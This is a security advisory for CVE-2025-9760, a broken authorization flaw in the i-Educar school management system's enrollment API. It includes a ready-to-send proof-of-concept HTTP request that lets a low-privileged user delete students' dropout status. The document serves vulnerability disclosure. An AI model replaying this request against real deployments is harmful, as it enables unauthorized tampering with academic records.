


## CVE-2025-9760: Broken Function Level Authorization (BFLA) on `matricula` API allows deletion of “abandono” status

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-9760***

## Summary

<p style="text-align: justify;">A <b>Broken Function Level Authorization (BFLA)</b> vulnerability was identified in the <code>matricula</code> API of the i-Educar application. This issue allows low-privileged users to delete the “abandono” (dropout) status of arbitrary student enrollments by manipulating request parameters.</p>

## Details

<p style="text-align: justify;"><b>Vulnerable Endpoint:</b></br><code>GET /module/Api/aluno</code></br></br>The application fails to enforce authorization checks to ensure that only privileged users (e.g., administrators) can perform sensitive operations like deleting an abandonment status. By altering the <code>id</code> parameter, an attacker can affect records that do not belong to them.</p>

## PoC

<p style="text-align: justify;"><ul><li>Authenticate as a non-privileged user.</li></ul></p>



<p style="text-align: justify;"><ul><li>Send the following request:</li></ul></p>

```html
GET /module/Api/matricula?&oper=delete&resource=abandono&id=206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
```

<p style="text-align: justify;"><ul><li>We could observe that the deletion was successful.</li></ul></p>



## Impact

<p style="text-align: justify;">This is a Broken Function Level Authorization (BFLA) vulnerability, as categorized by OWASP API Security Top 10 (2023) - API4. The consequences include:
  <ul>
    <li>Tampering with academic data without authorization.</li>
    <li>Loss of data integrity in school records.</li>
    <li>Potential legal and reputational damage for educational institutions.</li>
  </ul>
</p>

## Reference

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9760.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9760.md)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***